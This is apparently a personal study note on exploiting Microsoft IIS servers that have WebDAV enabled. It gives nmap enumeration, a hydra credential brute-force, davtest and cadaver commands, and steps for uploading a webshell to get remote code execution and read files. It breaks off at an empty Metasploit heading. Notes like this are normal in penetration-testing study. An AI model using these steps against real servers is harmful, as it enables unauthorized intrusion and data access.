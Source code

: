 Related to [[Metasploit]] and [[Windows Vulnerabilities]]

Microsfoft IIs is a propierary extensible web server software developed by microsoft, its used to host webs and webapps.

Typically configured on port 80/443

WebDAV (Web based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allows users to collaborateively edit and manage files on remote web servers

The first step of exploitation involves identifying whether webDAV has been configured to run on an IIS server.
We can perform burteforce in order to obtain credentials.
Once we have credentials we can upload a malicious .asp file for RCE or RSSH

We will use davtest and cadaver

We can start using:

``` bash
nmap -sV -p 80 --script=http-enum [IP]
```

When we find the webdav directory we can use hydra for a bruteforce:

``` bash
hydra -L [username_file] -P [password_file] [IP/domain] [protocol (http-get)] [directory (/webdav/)]
```

Once we have a login we can use davtest:

``` bash
davtest -url [url_with_webdavdir] -auth [username]:[password]
```

Now we know which types of files we can upload so now we can use cadaver:

``` bash
cadaver http://[IP/domain]/[webdavdir]
```

It will ask us for auth, then we have a sudo shell for the webdav dir, we can use this for a webshell

We can check all available webshells with 

``` bash
ls -al /usr/share/webshells/
```

Check the correct file extension we can upload, then with cadaver use:

``` bash
put [webshell_path]
```

Then we should open it from the browser, where it may be an RCE box or  reverse shell

To list all dirs from a command box:

``` bash
dir C:\
```

To read files:

``` bash
type C:\[path]
```

---

### Using [[Metasploit]]


